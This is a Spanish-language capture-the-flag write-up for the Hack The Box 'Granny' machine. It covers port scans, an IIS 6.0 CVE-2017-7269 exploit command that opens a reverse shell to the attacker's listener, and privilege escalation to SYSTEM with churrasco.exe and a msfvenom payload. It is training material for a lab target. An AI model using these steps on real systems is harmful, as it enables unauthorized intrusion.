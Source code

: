 ![cover](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/granny.jpg)

## Windows - Easy
IP = 10.10.10.15

### USER ###

*** 
Ejecutamos nmap 
    
    nmap -p- --open --min-rate 5000 -n -Pn -oG allPorts 10.10.10.15
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/allports.jpg)

    nmap -sC -sV -p80 -oN targeted 10.10.10.15

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/targeted.jpg)

Detectamos un puerto IIS 6.0 habilitado 

Buscamos vulnerabilidades de IIS 6.0 y encontramos el CVE-2017-7269

Nos descargamos el exploit de:

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269

Ejecutamos el exploit poniendo el puerto a la escucha.

    python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.2 4444

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/acceso.jpg)   

Conseguimos acceso a la maquina, comprobamos el usuario con el que hemos accedido nt autority\network service

Esta cuenta tiene permisos de acceso a los recursos de red pero no podemos hacer nada con ella.

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/networkservice.jpg)

Buscamos informacion para la escalada de privilegios y encontramos el articulo
https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/

ejecutamos 

    whoami /priv
    
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/impersonate.jpg)

comprobamos que el SeImpresontaPrivilege Enabled
Descargamos churrasco.exe y lo compartimos con impacket

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/churrasco.jpg)

Ejecutamos whoami con churrasco.exe y vemos que somos system

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/system.jpg)

Creamos un reverse shell con msfvenom

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/shell.jpg)

lo copiamos en granny

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/copy2.jpg)

ponemos en escucha el puerto de nuestro reverse shell y ejecutamos lo ejecutamos con churrasco

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/exploit.jpg)

Conseguimos acceso con system

leemos la flag de user

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/user.jpg)

### Root ###
***

Ejeutamos cd en la caperta de administrador y vemos que nos permite el acceso, vamos al escritorio y encontramos la flag

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/root.jpg)
